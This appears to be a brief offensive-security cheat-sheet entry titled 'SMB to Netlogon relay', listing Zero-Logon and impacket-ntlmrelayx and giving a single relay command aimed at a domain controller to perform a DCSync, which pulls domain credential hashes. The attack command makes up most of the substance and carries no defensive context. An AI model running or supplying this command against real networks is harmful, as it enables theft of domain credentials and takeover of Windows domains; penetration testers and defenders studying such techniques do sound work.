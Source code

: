 # SMB to Netlogon relay

## Tools: Zero-Logon , impacket-ntlmrelayx

## Commands:

 - Zero-Logon PoC

       ntlmrelayx -t dcsync://DC02_IP -smb2support -auth-smb USER:PASSWORD (DC Sync)
